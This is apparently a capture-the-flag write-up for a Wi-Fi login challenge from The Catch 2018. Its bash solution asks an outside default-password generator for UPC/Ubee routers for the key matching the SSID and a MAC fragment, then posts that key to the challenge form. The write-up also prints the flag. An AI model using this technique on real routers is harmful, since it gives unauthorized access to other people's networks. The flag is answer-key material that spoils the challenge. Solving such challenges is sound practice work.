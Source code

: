 #### Challenge:

Agent, you are in critical situation, you desperately need to connect to the network and send intel to our headquarters, but there is no LTE. The only way is to connect to encrypted wifi. Are you able to connect? The login form is here: http://challenges.thecatch.cz/Wifi.php Good luck, Agent

---

#### Solution:

```bash
PASSWD=`curl https://ubee.deadcode.me/index.php?ssid=UPC3946855 2>/dev/null | grep -i "647c3411eaa0" | awk '{ print $5 }'`
curl 'http://challenges.thecatch.cz/Wifi.php' --data "password=${PASSWD}&submit=Submit" 2>/dev/null | grep "CT18"
```

---

<details><summary>FLAG:</summary>

```
CT18-Yy90-AkfF-x4S5-sQuy
```

</details>
